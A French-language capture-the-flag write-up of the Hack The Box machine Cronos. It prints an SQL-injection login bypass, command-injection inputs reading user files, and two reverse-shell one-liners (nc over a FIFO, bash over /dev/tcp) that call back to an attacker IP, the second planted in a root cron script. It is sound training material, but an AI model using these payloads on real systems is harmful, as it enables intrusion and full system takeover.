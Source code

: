 ```yaml
---
title: "Write-up : Hack The Box - Cronos [MEDIUM]"
date: 2025-06-08T14:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["HackTheBox", "CTF", "Linux", "SQLi", "Command Injection", "Crontab", "Privilege Escalation"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution complète du challenge Hack The Box Cronos, de l'injection SQL à l'élévation de privilèges via crontab."
---
```


<!--more-->

# **Write-up : Hack The Box - Cronos [MEDIUM]**

{{< admonition info "Informations sur la Box" >}}
*   **Nom :** Cronos
*   **Plateforme :** Hack The Box
*   **Difficulté Annoncée :** Medium
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
*   **IP cible :** 10.129.227.211
{{< /admonition >}}

## **Introduction**

Cette box Medium de Hack The Box nous invite à exploiter une application web vulnérable aux injections SQL et de commandes.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Commençons par identifier les services sur la machine cible avec un scan Nmap.

```bash
nmap -sC -sV 10.129.227.211
```

![NMAP](/images/imagescrnos/image-2.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts :

*   **Port 22 (SSH) :** OpenSSH 7.2p2 Ubuntu - Service SSH pour l'accès distant
*   **Port 53 (DNS) :** ISC BIND 9.10.3-P4 - Service DNS, parfait pour l'énumération de sous-domaines
*   **Port 80 (HTTP) :** Apache httpd 2.4.18 Ubuntu - Serveur web principal

Le service HTTP sera notre cible principale, et la présence du DNS suggère des sous-domaines à découvrir.
{{< /admonition >}}

### **2. Exploration Web & Énumération de Sous-domaines**

Le site principal ne révèle rien d'intéressant. Let's go énumérer les sous-domaines avec gobuster :

```bash
gobuster vhost -u "cronos.htb" -w /usr/share/wfuzz/general/common.txt --append-domain
```



{{< admonition tip "Découverte Cruciale - Sous-domaine Admin" >}}
L'énumération révèle **admin.cronos.htb**. N'oublions pas de l'ajouter dans notre `/etc/hosts`.
{{< /admonition >}}

## **Phase 2 : Exploitation - Injection SQL**

### **Analyse du Panneau d'Administration**

En visitant `admin.cronos.htb`, nous découvrons une page de connexion classique. Après avoir examiné le code source sans succès, testons les vulnérabilités d'injection SQL les plus communes.

### **Bypass d'Authentification SQL**

Tentons une injection SQL classique pour contourner l'authentification :

```sql
admin' -- -
```


![gobuster](/images/imagescrnos/image-3.png)



{{< admonition success "Injection SQL Réussie !" >}}
L'injection SQL fonctionne parfaitement ! Nous accédons au dashboard admin.
{{< /admonition >}}

![sqlmeme](/images/imagescrnos/1_YGBbNkBIEvmiDFGC3dXpDw.jpg)

## **Phase 3 : Exploitation - Injection de Commandes**

### **Analyse du Dashboard**

Le dashboard présente un outil "Net Tool v0.1" permettant d'exécuter des commandes comme traceroute et ping. On dirait qu'on va devoir injecter de la commande par ici ! 

### **Test d'Injection de Commandes**

Testons l'injection de commandes en ajoutant des commandes supplémentaires après une adresse IP valide :

```bash
8.8.8.8; ls
```

La commande s'exécute avec succès ! Nous pouvons maintenant explorer le système :

```bash
8.8.8.8; cat /home/nolis/user.txt
```

{{< admonition success "Flag Utilisateur Obtenu !" >}}
L'injection de commandes fonctionne parfaitement et nous permet de récupérer directement le flag utilisateur depuis `/home/nolis/user.txt`.
{{< /admonition >}}

## **Phase 4 : Obtention d'un Shell Interactif**

### **Configuration du Reverse Shell**

Pour un meilleur contrôle de la machine, établissons un reverse shell. Utilisons un payload classique :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 5555 >/tmp/f
```

```bash
nc -lnvp 5555
```

Et exécutons le payload via l'interface web. Nous obtenons un shell en tant qu'utilisateur `www-data`.

![dashboard](/images/imagescrnos/image-4.png)


## **Phase 5 : Élévation de Privilèges - Analyse du Système**

### **Exploration des Privilèges et Processus**

En tant que `www-data`, nos privilèges sont limités. Le nom de la box "Cronos" suggère que l'élévation de privilèges implique les tâches cron.
C'est assez commun à HTB donc vérifions ! 
```bash
cat /etc/crontab
```

![revshell](/images/imagescrnos/image-5.png)


### **Découverte Cruciale - Tâche Cron Root**


{{< admonition warning "Tâche Cron Vulnérable Identifiée !" >}}
BINGO! Le système exécute régulièrement le script `/var/www/laravel/artisan` en tant que root. 
{{< /admonition >}}

## **Phase 6 : Exploitation de la Tâche Cron**

### **Modification du Script Artisan**

Remplaçons le contenu du script `artisan` par un reverse shell qui se connectera à notre machine :

```bash
echo '<?php exec("bash -c '\''bash -i >& /dev/tcp/10.10.14.22/5556 0>&1'\''");' > /var/www/laravel/artisan
```

### **Configuration de l'Écoute**

```bash
# Sur notre machine d'attaque
nc -lnvp 5556
```

### **Attente de l'Exécution Automatique**

Patientons le temps que la tâche cron s'exécute automatiquement (toutes les minutes)....

![waiting](/images/imagescrnos/ba7o0.jpg)

![artisan](/images/imagescrnos/image-6.png)

{{< admonition success "Root Obtenu !" >}}
Le reverse shell s'active et nous obtenons un accès root ! La manipulation de la tâche cron fonctionne parfaitement.
{{< /admonition >}}

### **Récupération du Flag Root**

```bash
id
cat /root/root.txt
```

## **Conclusion**

{{< admonition summary "Résumé de l'Exploitation" >}}
Cette box Cronos est pas mal et nous permet de voir : 

1. **Énumération DNS** 
2. **Injection SQL** 
3. **Injection de commandes** 
4. **Reverse shell** 
5. **Analyse des crontabs** 
6. **Manipulation de fichiers** 

{{< /admonition >}}

Box très accessible pour une "Medium", parfaite pour comprendre l'importance de l'énumération complète et l'exploitation des cronjobs.

![pwn](/images/imagescrnos/image.png)

